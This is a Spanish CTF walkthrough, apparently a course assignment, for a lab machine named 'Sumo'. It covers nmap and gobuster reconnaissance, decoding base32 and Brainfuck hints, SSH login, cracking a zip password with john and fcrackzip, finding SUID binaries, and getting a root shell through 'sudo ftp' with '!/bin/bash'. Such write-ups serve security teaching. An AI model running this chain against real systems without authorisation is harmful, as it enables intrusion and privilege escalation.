#  TAREA 4 - Sumo

### ÍNDICE

1. [Escaneo de Red](#escaneo-de-red)
2. [Investigación del código fuente](#investigación-del-código-fuente)
3. [El comando gobuster](#el-comando-gobuster)
4. [Akebono tiene un regalo para hakuho](#akebono-tiene-un-regalo-para-hakuho)
5. [En busca de binarios](#en-busca-de-binarios)
6. [Paso final](#paso-final)


## Escaneo de Red

Para escanear los equipos de nuestra red, ejecutaremos el siguietne comando:

```sh
nmap -p- nuestra_red/máscara
```

`nmap -p-` escanea la red y lista los puertos abiertos.



Ahora si hemos encontrado la ip, vamos a profundizar más con el comando:

```sh
nmap -sV ip_objetivo
```
`-sV` Prueba los puertos abiertos para determinar la información del servicio/version



Como hemos podido ver, tenemos un **servidor apache en marcha por parte la máquina objetivo**, vamos a acceder a su web principal a ver si vemos algo interesante...




## Investigación del código fuente

Nos adentramos a su código fuente...





Ahora accedemos al directorio que nos han mencionado...





Abrimos `/hint`



Desencriptamos el mensaje con **base32** de la siguiente forma:

```sh
echo "mensaje_encriptado====" | base32 --decode
```




## El comando gobuster

Como el creador de este CTF es muy gracioso, tendremos que indagar nosotros con el comando `gobuster` .

Para ello ejecutaremos lo siguiente:

```sh
gobuster dir -u url_objetivo -w /usr/share/dirbuster/wordlist/directory-list-2.3-medium.txt
```



Si accedemos a su archivo `.js` veremos:



Ese es el usuario.

También podremos especificar las extensiones de la siguiente manera:

```sh
gobuster dir -u url_objetivo -w /usr/share/dirbuster/wordlist/lista.txt .js,.html,.sql,.php,.css
```



En otra de las páginas encontradas, veremos esto...



Con un decodificador **Brainfuck** podremos ver el mensaje escondido:



Desencriptamos otra vez con `base32` el mensaje cifrado

Encontramos una contraseña...



Ahora con el usuario y contraseña, intentamos hacer ssh:

```sh
ssh usuario@ip
```






## Akebono tiene un regalo para hakuho

Inspeccionamos la lista de directorios del usuario...












Como nos pide una contraseña para el `.zip` , tendremos que intentar crackearla por fuerza bruta con el comando `john` y posteriormente con `fcrackzip`.

```sh
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```sh
fcrackzip -v -u -D -p /usr/share/wordlist/rockyou.txt gift.zip
```



Ahora que tenemos la contraseña, procedemos a descomprimir el `.zip` .



## En busca de binarios

Para listar la lista de binarios ejecutamos:

```sh
find / -type f -perm -4000 2>/dev/null
```



Si ejecutamos el siguietne binario:

```sh
/opt/exec/masayuki
```

Entramos en el usuario `masayuki` .



Ahora desde este usuario, hay algunos archivos que solo root puede acceder, pero por alguna razon si hacemos un grep recursivo con `-r` a todo /home/ (el home de el usuario masayuki), nos mostrará el contenido de esos archivos los cuales no podemos acceder.

```sh
grep -r "masayuki" /home/
```



```sh
grep -r "clave" /home/
```



Probando algo más generico:

```sh
grep -r a /home/
```



Con este comando averiguaremos una cosa importante...

```sh
grep -r "masayuki" /etc/
```

***masayuki esta en grupo sudo***
(Aunque no como parece)




## Paso final

Este usuario está en grupo sudo, pero parece ser que está limitado ya que no deja ejecutar ninguna operación con sudo.

Pero si vamos a los binarios de vuelta, podremos ejecutarlo. Vamos a probar con `ftp` .



```sh
sudo ftp
```

```sh
!/bin/bash
```

Con esto habremos accedido como **root**.

